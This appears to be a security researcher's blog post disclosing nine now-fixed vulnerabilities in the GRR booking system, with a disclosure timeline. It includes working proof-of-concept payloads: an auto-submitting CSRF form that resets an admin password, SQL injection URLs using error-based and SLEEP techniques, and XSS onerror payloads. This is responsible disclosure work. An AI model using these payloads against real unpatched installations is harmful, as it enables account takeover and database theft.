



A security audit of GRR
In November 2025 I decided to have a look at GRR, an open-source booking management system from Devome, a small french team. As is often the case this lead to the findings of several important vulnerabilities that have since been fixed thanks to the great response by its developers in GRR 4.5.0 which is available at https://github.com/JeromeDevome/GRR.
The vulnerabilities involve SQL injections, XSS, CSRFs, and more.
Context
The audit was on GRR version 4.4.2 and involved dynamic testing as well as source code analysis. There aren't many things that Administrators can't do in that application, so I focused on threat models with non-admin attackers. Furthermore, administrators have the ability to deploy external modules in the system that are made of PHP code, so taking over an admin account gives remote code execution on the server. This bumps the risk of attacks such as CSRFs and XSS.
In order to make it easier on the reader, this blog post will be written in the present tense, but please keep in mind that all the vulnerabilities have since been fixed.
V1: Cross-Site Request Forgery
CVSSv4 6.9/Medium
The application has no protection against Cross-Site Request Forgeries (CSRF). This is made worse by the fact that the application relies heavily on GET requests even for requests that change state on the server side, where modern designs would prefer POST or PUT requests. In practice this means that there are too many exploitation points to list them all and that their impact is very important.
This can be reproduced by creating a webpage csrf.html containing the following:
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8" />
<title>POC CSRF</title>
</head>
<body>
<form action="http://localhost:8000/admin/admin.php" method="get" name="csrfform">
<input type="text" name="p" value="admin_config4"/>
<input type="text" name="motdepasse_backup" value="CSRF OK"/>
<input type="text" name="disable_login" value="no"/>
<input type="text" name="redirection_https" value="no"/>
<input type="text" name="log_mail" value="0"/>
<input type="text" name="ip_autorise" value=""/>
<input type="text" name="horaireconnexionde" value=""/>
<input type="text" name="horaireconnexiona" value=""/>
<input type="text" name="sessionMaxLength" value="60"/>
<input type="text" name="pass_leng" value="8"/>
<input type="text" name="pass_nb_min" value="1"/>
<input type="text" name="pass_nb_maj" value="1"/>
<input type="text" name="pass_nb_ch" value="1"/>
<input type="text" name="pass_nb_sp" value="1"/>
<input type="text" name="url_disconnect" value=""/>
<input type="text" name="ok" value="Enregistrer"/>
</form>
<script>
document.csrfform.submit();
</script>
</body>
</html>When this page is loaded, it performs a GET request to admin.php that changes the configuration of backups, and in particular sets a specific password "CSRF OK".
To demonstrate the vulnerability, adjust the URL line 9, log into GRR as an administrator then in a separate tab visit csrf.html. You will be automatically redirected and can note that the configuration (and in particular the password) changed.
V2: SQL injection through editentree
CVSSv4 Score: 7.1/High
A SQL injection is present in functions.inc.php, function jQuery_DatePickerTwig, reachable through editentree with the parameter id. That injection requires authentication but no admin privilege is necessary.
Here is the impacted source code:
if ($typeDate == 'rep_end_' && isset($_GET['id'])){
$res = grr_sql_query("SELECT repeat_id FROM ".TABLE_PREFIX."_entry WHERE id=".$_GET['id'].";");Using such an injection, it's possible to extract the entire database, including password hashe which are, thankfully, hashed with bcrypt in recent versions.
To reproduce, go to the following URL:
http://localhost:8000/app.php?p=editentree&id=11%20AND%20GTID_SUBSET(CONCAT(0x717a627a71,(SELECT%20(ELT(5151=5151,1))),0x716b627671),5151)&edit_type=series&day=14&month=11&year=2025&page=jour
This displays the following message that demonstrates successful injection:
Malformed GTID set specification 'qzbzq1qkbvq'.
V3: SQL injection in vuereservation.php
CVSSv4 Score: 7.1/High
In reservation/contoleurs/vuereservation.php, if reg_part is set, an authenticated SQL injection is possible via $_GET["reg_participants"].
if(isset($_GET["reg_part"]))
{
$reg_participant = array();
if(isset($_GET["reg_participant"]))
$reg_participant = $_GET['reg_participant'];
/* ... */
if(count($reg_participant)<=$nbParticipantMax){
/* ... */
$new_users = array_diff($reg_participant, $reg_users); // à inscrire, ne sont pas inscrits
foreach ($new_users as $user)
{
$sql = "INSERT INTO ".TABLE_PREFIX."_participants (idresa, beneficiaire) values ('$id','$user')";The consequences are similar to that described in V2.
I did not take the time to build a POC for that SQL injection.
V4: SQL injection in session.inc.php
CVSSv4 Score: 7.1/High
In include/session.inc.php, the referer from the login request as well as its user-agent are vulnerable to SQL injections.
if (isset($_SERVER["HTTP_REFERER"]))
$httpreferer = substr($_SERVER["HTTP_REFERER"],0,254);
else
$httpreferer = '';
if (isset($os) && isset($brow))
$useragent = $os.' '.$brow;
else
$useragent = substr($_SERVER['HTTP_USER_AGENT'],0,254);
$sql = "INSERT INTO ".TABLE_PREFIX."_log (LOGIN, START, SESSION_ID, REMOTE_ADDR, USER_AGENT, REFERER, AUTOCLOSE, END) values (
'" . protect_data_sql($_SESSION['login']) . "',
'" . $_SESSION['start'] . "',
'" . session_id() . "',
'" . $_SERVER['REMOTE_ADDR'] . "',
'" . $useragent . "',
'" . $httpreferer . "',
'1',
'" . $_SESSION['start'] . "' + interval " . Settings::get("sessionMaxLength") . " minute
)
;";
grr_sql_query($sql);Even though this injection is related to the authentication process, the injection point is only reached after successful authentication. Its consequences are similar to those described in V2.
To reproduce:
Connect with a valid user and password, setting the referer to:
http://localhost:8000/app.php?p=login' RLIKE SLEEP(5) AND 'nVvx'='nVvx
The response should present a noticeable delay, showcasing the vulnerability.
V5: Reflected XSS in editentreetrt.php
CVSSv4 Score: 6.2/Medium
There's a reflected XSS when editing bookings through /app.php?p=editentreetrt, in the conflict management page.
http://localhost:8000/app.php?p=editentreetrt&oldRessource=1&rep_id=0&edit_type=%27%22%3E%3Cimg%20src=x%20onerror=confirm(174917)%20x=&page=jour&room_back=1&page_ret=&create_by=ADMINISTRATEUR&type_affichage_reser=0&id=14&beneficiaire=ADMINISTRATEUR&benef_ext_nom=&benef_ext_email=&name=auieuie&description=description&start_day=03&start_month=11&start_year=2025&start_=08:30&duration=30&dur_units=minutes&areas=1&rooms[]=1&type=B&nbparticipantmax=0&rep_type=1&rep_num_weeks=1&rep_month=3&rep_month_abs1=0&rep_month_abs2=1&rep_end_day=03&rep_end_month=11&rep_end_year=2025
Multiple parameters present that XSS:
edit_type
page_ret
name
description
start_
duration
dur_units
rooms[]
type
Reflected XSS are dangerous because if an authenticated user accesses that URL (for example through phishing), that allows the attacker remote code execution in the victim's web browser using the victim's privileges. The attacker can do anything in the application that the victim could. This is obviously especially dangerous if administrators are targeted.
V6: Reflected XSS in maj.php
CVSSv4 Score: 6.2/Medium
A reflected XSS is present in forcemaj from /installation/maj.php.
http://localhost:8000/installation/maj.php?forcemaj=0400008%27%22%3E%3Cimg%20src%3Dx%20onerror%3Dconfirm%2827892%29%20x%3D
That XSS can be reached even with unauthenticated users, but it relies on setup-related files that may have been removed after deployment.
V7: Open redirect
CVSSv4 Score: 5.1/Medium
Open redirects are vulnerabilities where an attacker can manipulate the page to which a user is redirected. This is useful for phishing as it provides a trusted initial domain that then redirects to a credential harvesting page for example. It also allows circumventing SameSite to perform GET CSRF attacks as the final request comes from the website itself.
The URL is: http://localhost:8000/app.php?p=login&url=https%3A//example.com
Completing the login process will see the user redirected to the specified URL.
V8: Session Fixation
CVSSv4 Score: 4.8/Medium
The session cookie is not reset upon login or logout. This allows a session fixation attack where the attacker gains knowledge of the session cookie before it's provided to the victim. Here is an illustrative scenario:
Let's say Eve is a student in a university that uses GRR for room booking
Eve knows that one of the shared computers from the common room is often used to access GRR. She goes to http://grr.univ.fr and a cookie is provided to her browser session. She doesn't even need to log in.
Eve takes note of the session cookie and goes somewhere near with her laptop. She leaves open the web browser on GRR's login page.
Alice needs to book a room and decides to use that computer. She logs in. Normally, a new cookie should be generated for her session, but in GRR this is not the case: she's using the very cookie Eve took note of.
While that happens, Eve puts the cookie in her web browser and, once Alice is connected, loads GRR. Since the cookie is linked to Alice's session now, Eve is logged in as Alice.
Alice logs out and leaves her place to Bob who logs in. The cookie is still unchanged. Eve reloads the page: she's now connected as Bob.
As we can see, that attack is powerful if the right conditions are met, but the most common exploitation scenarios imply physical access to the computer used by the victim which severely reduces its usability.
V9: SQL injection in report.php
CVSSv4 Score: 7.1/High
In reservation/modeles/report.php, line 247, we can read:
$premiere_cellule = grr_sql_query1("SELECT fieldname FROM ".TABLE_PREFIX."_overload WHERE id='".$_GET["sumby"]."'");The parameter $_GET["sumby"] is used without being escaped, leading to an SQL injection exploitable from a low-privilege account.
That SQL injection is presented last because its discovery followed the initial report, but it was also fixed in version 4.5.0.
Timeline
2025-11-06: Initial report communicated to Team Devome
2026-01-15: Review of the fixes, some corrections
2026-01-18: Last changes are implemented in 4.5.0 RC2
2026-02-11: Publication of the vulnerabilities